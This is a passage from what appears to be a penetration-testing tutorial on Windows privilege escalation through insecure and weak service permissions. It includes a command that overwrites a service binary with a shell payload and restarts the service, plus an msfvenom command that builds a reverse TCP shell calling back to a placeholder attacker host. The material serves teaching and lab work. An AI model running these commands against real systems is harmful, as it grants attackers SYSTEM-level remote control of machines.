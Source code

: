 ![1*U6v8dtbxeZ5pOiqV1chdbw.png](../_resources/ff59037dd1a120aa428281aab997425c.png)

Replacing the file by copying the payload to the service binary location. Restart the service to execute the payload with higher privilege.

copy /y C:\Users\user\Desktop\shell.exe "c:\Program Files\File Permissions Service\filepermservice.exe"sc start filepermsvc

## Weak Service Permissions

Services created by SYSTEM having weak permissions can lead to privilege escalation. If a low privileged user can modify the service configuration, i.e. change the `binPath` to a malicious binary and restart the service then, the malicious binary will be executed with SYSTEM privileges.

If the group “Authenticated users” has **SERVICE_ALL_ACCESS** in a service, then it can modify the binary that is being executed by the service.

![1*fSysETFs5-I2ZFmEghiz0A.png](../_resources/6fbf97f1f31117c6192c4527454fa16d.png)
![1*fSysETFs5-I2ZFmEghiz0A.png](../_resources/f083dda50e54a590bd896c1781e457d8.png)

msfvenom -p windows/shell_reverse_tcp LPORT=31337 LHOST=YOURIPHERE -f exe-service > shell.exe

When Windows makes a call to start a service, it calls the ServiceMain function and expects a return from this call. If you don’t specify exe-service, the generated payload won’t be able to give you a persistent shell.
